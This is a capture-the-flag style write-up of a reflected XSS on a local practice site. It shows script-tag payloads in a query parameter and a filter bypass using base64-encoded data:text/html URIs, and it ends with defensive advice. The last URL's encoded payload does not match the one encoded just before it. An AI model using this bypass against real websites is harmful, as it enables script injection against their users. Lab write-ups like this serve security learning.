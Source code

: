 ## [Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html)

The index page has a weirdly loaded image http://localhost:8080/index.php?page=media&src=nsa.

Visiting the page and changing the `src` query parameter shows an HTML `<object>` tag, with a `data` attribute which corresponds to `src`. For example, visiting `http://localhost:8080/index.php?page=media&src=ooga` yields `<object data="ooga">`. Like always when user input is used to display HTML content, we can try an XSS attack.

We start by trying an HTML injection with `src=<script>confirm("ooga")</script>`, which isn't executed, likely due to URL sanitization.

A common method to bypass the URL encoding is by using base64.

```console
$ echo -n '<script>confirm("ooga")</script>' | base64
PHNjcmlwdD5jb25maXJtKCJvb2dhIik8L3NjcmlwdD4=
```

This works, showing the expected dialog menu: http://localhost:8080/?page=media&src=data:text/html;base64,PHNjcmlwdD5jb25maXJtKCJvb2dhIik8L3NjcmlwdD4=. However, this doesn't yield the flag. We then try the more common `alert` function:

```console
$ echo -n '<script>alert("ooga")</script>' | base64
PHNjcmlwdD5hbGVydCgib29nYSIpPC9zY3JpcHQ+
```

Visiting the page http://localhost:8080/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgib2siKTwvc2NyaXB0Pgo= gives us the flag.

This vulnerability is specifically known as Reflected XSS. Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way. ([source](https://portswigger.net/web-security/cross-site-scripting/reflected))

To defend against such attacks, you must validate and sanitize inputs to eliminate the ability to inject code. Also, try to not use unsafe features such as `<object>`, and rather use `<img src="/media/<id>.jpg">`.
